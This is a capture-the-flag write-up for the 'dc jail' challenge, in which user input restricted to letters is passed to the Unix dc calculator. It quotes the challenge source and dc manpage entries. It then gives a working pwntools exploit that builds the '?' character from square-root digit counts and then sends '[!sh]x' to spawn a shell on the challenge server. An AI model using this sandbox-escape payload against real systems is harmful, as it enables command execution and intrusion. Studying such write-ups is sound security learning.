 # dc jail

```
a "desk calculator" ... using "reverse polish notation" ... yeah this was not on my bucket list for year

nc challs1.pyjail.club 16303
```

Attachment:

```python
#!/usr/bin/python3

import os

inp = input('> ')
if any(c not in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy' for c in inp):  # they gave me no blue raspberry dawg
    print('bad. dont even try using lowercase z')
    exit(1)

with open('/tmp/code.txt', 'w') as f:
    f.write(inp)

os.system(f'/usr/bin/dc -f /tmp/code.txt')

print("stop. you're done. get out.")
```

Reading the dc manpage, here are some interesting commands:

```man
       k      Pops the value off the top of the stack and uses it to set the precision.

       I      Pushes the current input radix on the stack.

       v      Pops one value, computes its square root, and pushes that.  The maximum of the
              precision  value  and  the  precision of the argument is used to determine the
              number of fraction digits in the result.

       Z      Pops a value off the stack, calculates the number of decimal digits it has (or
              number of characters, if it is a string) and pushes that  number.   The  digit
              count for a number does not include any leading zeros, even if those appear to
              the right of the radix point.

       d      Duplicates the value on the top of the stack,  pushing  another  copy  of  it.
              Thus, ``4d*p'' computes 4 squared and prints it.

       a      The  top-of-stack  is  popped.  If it was a number, then the low-order byte of
              this number is converted into a string and pushed onto the  stack.   Otherwise
              the  top-of-stack  was  a  string,  and  the first character of that string is
              pushed back.

       x      Pops a value off the stack and executes it as a macro.  Normally it should  be
              a string; if it is a number, it is simply pushed back onto the stack.  For ex‐
              ample, [1p]x executes the macro 1p which pushes 1 on the stack and prints 1 on
              a separate line.

       [characters]
              Makes a string containing characters (contained between balanced [ and ] char‐
              acters), and pushes it on the stack.  For example, [foo]P prints  the  charac‐
              ters foo (with no newline).

       !      Will  run  the rest of the line as a system command.  Note that parsing of the
              !<, !=, and !> commands take precedence, so if  you  want  to  run  a  command
              starting with <, =, or > you will need to add a space after the !.

       ?      Reads  a  line from the terminal and executes it.  This command allows a macro
              to request input from the user.
```

Here is the general idea:

1. To get shell, we need to use `!sh`
2. However, we cannot use `!`, so we put it into a string via `[!sh]`, and execute it with `x`: `[!sh]x`
3. However, we cannot use `[` for `]`, instead, we can use `a` to construct a single-character string, but `!sh` is too long
4. Therefore we use `[?]x` to readline from stdin and execute it
5. So we only need to construct `?` on the stack, which can be compute from 63 (ASCII of `?`) via `a`
6. To construct 63, we first push 10 (the default input radix) onto the stack via `I`
7. To make it larger, we extend the precision to 10 by `k`, then we can use `v` to compute `sqrt(10)` of precision 10: `3.1622776601`
8. `3.1622776601` has 11 digits, so applying `Z` to it gives us `11`
9. Set precision as `11` and repeat the process of `dZkv` (duplicate TOS, count its decimal digits, set as precision, square root), until we get 63

Attack:

```python
from pwn import *

# notes:
# [!sh]x: get shell
# [?]x: readline and eval
# 63a: push "?" to stack

# I: push 10
# k: pop 10, set precision = 10
# I: push 10
# v: pop 10, push sqrt(10)
# extend digits by (TOS means top of stack):
# 1. d: duplicate TOS
# 2. Z: pop and compute number of decimal digits of TOS
# 3. k: pop and set precision as TOS
# 4. v: pop TOS, push sqrt(TOS)
# p = process("dc")
p = remote("challs1.pyjail.club", 16303)
p.recvuntil(b"> ")
p.sendline(f"IkIv{'dZkv'*52}Zax".encode())
sleep(1)
p.sendline(f"[!sh]x".encode())
p.interactive()
```

Flag: `jail{but_does_your_desk_calculator_have_rce?_5c9cff7b71fc447d}`.

